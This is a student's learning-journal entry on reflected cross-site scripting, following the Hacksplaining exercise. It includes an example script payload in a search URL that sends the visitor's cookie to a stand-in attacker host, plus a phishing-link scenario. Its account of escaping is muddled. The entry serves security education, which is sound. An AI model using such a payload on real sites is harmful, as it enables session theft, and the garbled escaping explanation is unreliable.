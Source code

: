 # Entry #6: Another Part of XSS and Needing To Speed Things up
Time is running out and there is still so many more topics to learn about! What should I do? Read on to find out! (O u O)/

##### Some Side Notes: 
If you would like to follow along with what you will read in my entry, click on this link: [Hacksplaining: Reflected XSS](https://www.hacksplaining.com/exercises/xss-reflected#). 

When you click on the link, you will notice that there are circles on the top-left corner. Those circles are like the steps or slides of a presentation. You can click on them to go back and forward.  

![circles](../images/reflected-xss/circles.png)  

## Connection 
**_(circles 1+2)_**

This topic is connected to cross-site scripting, which gives attackers a way to use malicious JavaScript in programmer’s database. By doing so, the code is executed when user goes to site  
Another method of attackers using XSS to use malicious JavaScript → Reflected XSS attack  

## How It Happens 
**_(circle 3)_**

If a website uses HTTP to execute user’s request and show the results in return → opening a way for attackers to use their JavaScript on it. 

**_(circle 4-11)_**

* Mal (attacker) sees that a website uses the aspect of putting search terms into the URL. 
* Mal knows that search terms will be shown in the URL of the results page → www.welp.com?search=taco (```taco``` is the parameter value for ```search```)  
* Mal tries to infiltrate the site by making a URL with a section of JavaScript that can help him → ```www.welp.com?search=<script>window.location="http://www.haxxed.com?cookie="+document.cookie</script>``` (in parameter of search )    
* URL and his JavaScript runs → leading to his browser going to his malicious site 
* Once he was able to be successful, his next step would be to fool someone else to do what he just did, but without knowing that it is not suppose to happen in his favor 
* 
**Steps That Mal Takes:** 
1) Send email to Vic (innocent user) in attempt to have him click on the link that catches his attention 
2) Link clicked → page process the HTML “without escaping it properly” and instead, have it process the script tag that Mal injected 
    * “without escaping it properly” → Have the code language not transition into another one
        * Mr. Mueller’s example: ```<p> <%  > </p> ``` 
        * The ```>``` for the Ruby section (```<% >```)  
            * Without % → goes from HTML to Ruby and then back to HTML, but the closing tag for Ruby stays the same as the HTML one → letting Mal’s code run in browser  
3) Once page loads, Mal’s script is ran → leading Vic’s browser to show Mal’s malicious site instead  
    * Mal gains the ability to see Vic’s server log 

## Takeaways
**Use the people around you as resources.** For me, when I was learning about the method Mal would use so that the program is tricked into reading his malicious code, I was confused by the phrase, “escaping properly”. While knowing that Mr. Mueller has encountered this kind of obstacle before (with a link/URL), I went ahead and asked him to see if he understood what it means. It is kind of awesome that one’s struggle and success in something can lead to another person successfully tackle their own obstacle(s). 

## Next Steps 
* There are many more topics that I can learn about in this website, but time running out. What should I do? Well, from skimming through the topic names, I have noticed that cross-site scripting (XSS) is mentioned four times: Cross-Site Scripting, Cross-Site Request Forgery, Reflected XSS, and DOM-Based XSS. With these things in mind, my plan for now would be to learn the “last part” of XSS and then see if I I can make a MVP.  
* **MAKE A MVP BY _NEXT WEEK_!!!**  
* MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP   





